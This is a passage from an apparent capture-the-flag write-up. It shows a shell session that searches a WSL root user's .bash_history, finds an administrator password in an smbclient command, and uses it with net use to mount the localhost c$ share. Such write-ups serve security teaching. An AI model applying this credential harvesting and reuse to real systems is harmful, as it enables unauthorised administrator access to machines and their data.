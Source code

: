 

    C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\home>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9CDD-BADA

     Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\home

    06/21/2018  05:00 PM    <DIR>          .
    06/21/2018  05:00 PM    <DIR>          ..
                   0 File(s)              0 bytes
                   2 Dir(s)  33,220,313,088 bytes free

    C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 9CDD-BADA

     Directory of C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root

    06/22/2018  01:44 PM    <DIR>          .
    06/22/2018  01:44 PM    <DIR>          ..
    06/22/2018  02:09 AM             3,112 .bashrc
    01/13/2019  10:04 AM               443 .bash_history
    06/21/2018  05:00 PM               148 .profile
    06/22/2018  01:56 AM    <DIR>          filesystem
                   3 File(s)          3,703 bytes
                   3 Dir(s)  33,220,313,088 bytes free



The `.bash_history` is available here as well:



    C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>type .bash_history | findstr smbclient
    type .bash_history | findstr smbclient
    smbclient
    apt install smbclient
    smbclient
    smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$



### Root FS Access

One way to use the administrator creds is to connect to the localhost
`c$` share:



    C:\inetpub\new-site>net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
    net use \\127.0.0.1\c$ /user:administrator "u6!4ZwgwOM#^OBf#Nwnh"
    The command completed successfully.
